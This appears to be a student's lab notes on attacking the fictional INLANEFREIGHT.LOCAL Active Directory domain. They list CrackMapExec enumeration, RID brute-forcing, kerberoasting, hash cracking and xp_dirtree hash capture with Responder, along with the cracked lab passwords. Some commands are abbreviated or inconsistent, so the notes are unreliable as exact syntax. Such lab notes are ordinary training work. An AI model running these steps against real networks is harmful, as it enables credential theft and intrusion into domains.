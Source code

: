*Command*: 

*Result:* 

## Crackmapexec
*Command*: Find all internal ips and domain names
- proxychains4 -q cme smb -M ioxidresolver

*Result*:
|       IP       |        Domain Name        | Notes |
| :------------: | :-----------------------: | :---: |
|  172.16.15.3   | dc01.INLANEFREIGHT.LOCAL  |       |
|  172.16.15.15  | ql01.INLANEFREIGHT.LOCAL  |       |
|  172.16.15.20  | dev01.INLANEFREIGHT.LOCAL |       |
| 10.129.246.181 | sql01.INLANEFREIGHT.LOCAL |       |

---

*Command*: RIDs bruteforce
- proxychains4 -q cme smb --rid-brute 10000

*Result:* Juliette

---

*Command*: Kerberosasting anonymous
- proxychains4 cme ldap --kerberoasting kerberoasting.out

*Result:* 
- Juliette:hash

---

*Command*: Crack Juliettes password
- hashcat -m 18200 hash.juliette

*Result:* juliettes:Password1

---

*Command*: User discovery with juliettes user
- cmd ldap -M user-desc

*Result:* Atul:hooters1

---

*Command*: Execution ov xp_dirtree inside mssql
- Responder
- cme mssql - xp_dirtree
  
*Result:* SQL01$::INLANEFREIGHT:hash

---
